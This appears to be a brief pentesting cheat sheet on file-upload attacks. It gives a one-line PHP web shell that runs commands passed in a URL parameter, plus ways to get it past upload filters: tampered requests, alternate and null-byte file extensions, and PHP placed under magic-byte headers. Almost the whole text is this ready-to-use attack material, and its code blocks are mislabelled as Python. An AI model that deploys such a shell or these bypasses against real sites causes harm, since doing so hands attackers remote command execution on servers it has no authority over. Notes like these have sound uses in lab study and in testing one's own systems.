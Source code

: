 ```Python
<?php system($_GET['cmd']); ?>
```
### Client-Side
- Intercept request, modify filetype, and filename, and replace data, send modified request
### Server-Side Bypasses
**extensions**
```Python
shell.php.png
shell.php%00.png
shell.phtml
shell.inc
shell.php3
shell.php4
shell.php5
```
**Content-Type**
```Python
kinda useless
```
**magic bytes**
[https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
- Intercept request, insert php below magic bytes header, change filetype to php, and send